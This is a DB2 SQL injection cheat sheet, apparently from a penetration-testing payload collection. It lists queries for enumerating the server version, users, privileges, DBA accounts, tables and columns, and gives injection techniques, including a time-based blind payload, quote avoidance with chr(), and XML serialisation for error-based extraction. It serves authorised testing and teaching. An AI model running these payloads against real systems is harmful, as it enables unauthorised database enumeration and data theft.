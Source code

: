 # DB2 Injection

> 

## Summary

* [DB2 Cheatsheet](#db2-cheatsheet)
* [References](#references) 

## DB2 Cheatsheet

### Version

```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### Comments	

```sql
select blah from foo -- comment like this (double dash)
```

### Current User

```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```

### List Users

DB2 uses OS accounts

```sql
select distinct(authid) from sysibmadm.privileges -- priv required
select grantee from syscat.dbauth -- incomplete results
select distinct(definer) from syscat.schemata -- more accurate
select distinct(grantee) from sysibm.systabauth -- same as previous
```

### List Privileges

```sql
select * from syscat.tabauth -- shows priv on tables
select * from syscat.tabauth where grantee = current user -- shows privs for current user
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
```

### List DBA Accounts	

```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
```

### Current Database	

```sql
select current server from sysibm.sysdummy1
```

### List Databases

```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### List Columns

```sql
select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
```

### List Tables

```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### Find Tables From Column Name	

```sql
select tbname from sysibm.syscolumns where name='username'
```

### Select Nth Row

```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### Select Nth Char	

```sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
```

### Bitwise AND/OR/NOT/XOR

```sql
select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
```

### ASCII Value

```sql
Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
```

### Char -> ASCII Value	

```sql
select ascii('A') from sysibm.sysdummy1 -- returns 65
```

### Casting

```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### String Concat

```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
```


### IF Statement
Seems only allowed in stored procedures. Use case logic instead.

### Case Statement

```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```


### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
```

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 
However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### Serialize to XML (for error based)

```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
```

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
```

### Location of DB Files

```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
```

### System Config

```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
```

### Default System Database

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## References

* [DB2 SQL injection cheat sheet - Adrián - 20/05/2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [DB2 SQL Injection Cheat Sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
